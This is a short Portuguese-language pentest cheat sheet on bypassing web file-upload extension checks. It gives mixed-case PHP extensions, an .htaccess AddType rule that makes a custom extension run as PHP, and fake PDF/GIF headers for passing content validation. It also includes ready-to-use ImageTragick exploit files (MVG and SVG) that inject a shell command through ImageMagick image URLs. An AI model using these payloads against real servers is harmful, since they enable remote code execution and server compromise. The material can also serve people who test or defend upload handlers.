 # Bypass em regras de extenções para upload  

#### **Aplicação com Case-sensitive ativo**  
Altere algumas letras da extensão para caixa alta:  
**.PHp .pHp .phP**  

#### **Alterando permissões com .htaccess**  
O arquivo .htaccess utilizado em servidores web (geralmente Apache), permite realizar configurações a nível de diretório.  
Podemos criar nosso arquivo malicioso com a extensão  **.sec** e subimos outro arquivo **.htaccess** com a configuração abaixo:  
**AddType application/x-httpd-php .sec**  

#### **Alterando tipo do arquivo**  
Algumas aplicações fazem a validação do tipo de arquivo pelo conteúdo, nesse cado devemos identificar o cabeçalho do arquivo que a aplicação aceita e replicar em nosso arquivo malicioso:

PDF Header
**%PDF-1.5**

GIF Header
**GIF89a**

#### **ImageTragik**  
*https://imagetragick.com/*  

Essa é uma vulnerabilidade encontrada no software ImageMagick muito utilizada por desenvolvedores para tratar imagens enviadas por usuários.
A falha ocorre em formatos de imagens como **.mvg** e **.svg** que utilizam bibliotcas externas para processar o arquivo. Podemos então manipular os links dessas bibliotecas concatenando os comandos que queremos executar:  

**exploit.mvg**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";ls "-la)'
pop graphic-context
```  

**exploit.svg**
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1"
xmlns="http://www.w3.org/2000/svg"; xmlns:xlink=
"http://www.w3.org/1999/xlink";>
<image xlink:href="https://example.com/image.jpg&quot;ls &quot;-la"
x="0" y="0" height="640px" width="480px"/>
</svg>
```

Talvez seja necessário alterar o formato do arquivo para .jpg ou .png para dar um bypass em validações de extenção.